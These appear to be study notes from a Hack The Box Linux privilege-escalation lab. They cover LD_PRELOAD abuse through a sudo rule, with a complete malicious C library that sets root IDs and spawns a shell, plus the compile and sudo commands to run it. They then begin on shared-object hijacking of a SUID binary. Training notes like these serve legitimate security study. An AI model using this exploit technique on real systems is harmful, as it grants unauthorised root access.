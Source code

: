 here key thing to look is,  `env_keep+=LD_PRELOAD` and  `(root) NOPASSWD: /usr/bin/openssl`

we are going to execute our own library and preload that before we run anything else, we are going to make a malicious library and use it.

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

`root.so` 

- `htb_student@NIX02:~**$** gcc -fPIC -shared -o root.so root.c -nostartfiles` → compile it, we should have root.so

then 

- `sudo LD_PRELOAD=/home/htb-student/root.so /usr/bin/openssl` → we are pre loading our malicious library and running the service which we have sudo access.
    
    full path should be provided
    

# **Shared Object Hijacking**

Some binaries and programs have custom libraries associated with them. we can use `ldd` to print the shared object required for a specific binary or shared object.

For suid binary payroll

```
htb-student@NIX02:~$ ls -la payroll
-rwsr-xr-x 1 root root 16728 Sep  1 22:05 payroll
```

```
htb-student@NIX02:~$ ldd payroll

linux-vdso.so.1 =>  (0x00007ffcb3133000)
libshared.so => /lib/x86_64-linux-gnu/libshared.so (0x00007f7f62e51000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7f62876000)
/lib64/ld-linux-x86-64.so.2 (0x00007f7f62c40000)
```

here using ldd command we can see a non  standard library [`libshared.so`](http://libshared.so) listed as a dependency for payroll.

we can load shared libraries from custom locations.  We can inspect the path using `readelf` utility
